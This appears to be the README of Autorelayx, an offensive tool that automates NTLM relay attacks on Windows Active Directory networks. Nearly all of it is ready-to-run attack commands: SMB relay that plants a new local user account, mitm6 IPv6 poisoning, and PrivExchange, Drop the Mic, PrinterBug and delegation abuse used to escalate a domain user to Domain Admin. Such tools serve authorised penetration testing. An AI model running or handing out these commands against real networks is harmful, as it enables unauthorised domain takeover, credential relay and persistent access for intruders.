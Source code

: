 Autorelayx
=======

Automates the process of setting up advanced relaying techniques.

# Installation

    sudo apt-get install tcpdump python2 python3
    pip install pipenv
    git clone --recurse-submodules https://github.com/Coalfire-Research/autorelayx

Open the file autorelayx/tools/PrivExchange/httpattack.py. Replace the string "dev.testsegment.local/myattackerurl/" 
with your local IP address (run `ip a` to find your local IP). The modified line should look something like: 
`attacker_url = 'http://192.168.1.30'` where 192.68.1.30 is your actual local IP. 

    cd autorelayx
    cp tools/PrivExchange/httpattack.py tools/impacket/impacket/examples/ntlmrelayx/attack/httpattack.py
    sudo pipenv install --three
    sudo pipenv shell
    cd tools/impacket
    pip install .

# Usage

## SMB relay
Hostlist should be formatted in CIDR notation (192.168.0.0/24) or individual IPs separated by a newline. This will
scan the hosts in the hostlist for any that do not have SMB signing enabled and write them to unsigned-smb-hosts.txt.
Runs ntlmrelayx.py and Responder.

```python autorelayx.py -l <hostlist.txt>```

SMB relay with a custom command and without checking SMB signing.

```python autorelayx.py -tf <targets_file.txt> -c <"net user /add danmcinerney P@ssword123456">```

## IPv6 poisoning
This will run ntlmrelayx, Responder, and mitm6. The -i <interface> argument is optional and specifies the interface to use for both 
Responder and mitm6. The -d <domain> is optional but suggested to use to limit mitm6's responses.

```python autorelayx.py -l <hostlist.txt> -6 -d <domain for mitm6 to poison> -i <interface>```

## Drop the Mic
Escalate a domain user that you have the password for to Domain Admin. Script will test the exchange server(s) for 
vulnerability to SpoolService RPC abuse for the Drop the Mic attack.

```python autorelayx.py --remove-mic -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -sf <exchange_servers.txt>```

```python autorelayx.py --remove-mic -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -s <Exchange IP/hostname>```

## PrivExchange
Escalate a domain user that you have the password for to Domain Admin.

```python autorelayx.py --privexchange -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -s <exchange server IP/hostname>```

## Passwordless PrivExchange
If you don't have a domain user's password you can try performing the passwordless PrivExchange attack

```python autorelayx.py --httpattack -s <exchange server IP/hostname>```

Passwordless PrivExchange attack coupled with mitm6 poisoning on specific domain

```python autorelayx.py --httpattack -s <exchange server IP/hostname> -6 -d <domain for mitm6 to poison>```

## Delegation
Requires no domain credentials. Creates a new machine account, prints the username and password of the new machine 
account, and modifies its delegation rights. Upon success, please use getST.py from impacket to relay the delegation and
 gain access to the machine account.
 
 ```python autorelayx.py --delegate -dc <domain controller IP/hostname>```

## Domain controller delegation
Requires 2 domain controllers, at least one of which must be vulnerable to PrinterBug, and a domain user's credentials. 
Forces the PrinterBug-vulnerable domain controller to authenticate to the attacker which is relayed to the other domain 
controller. A machine account is created and given delegation rights. Upon success, user can use getST.py from impacket 
to impersonate a domain admin on the newly created machine.

 ```python autorelayx.py --delegate-dc -dc <domain controller IP/hostname> -s <PrinterBug-vulnerable domain controller> -u <DOM/user:password>```
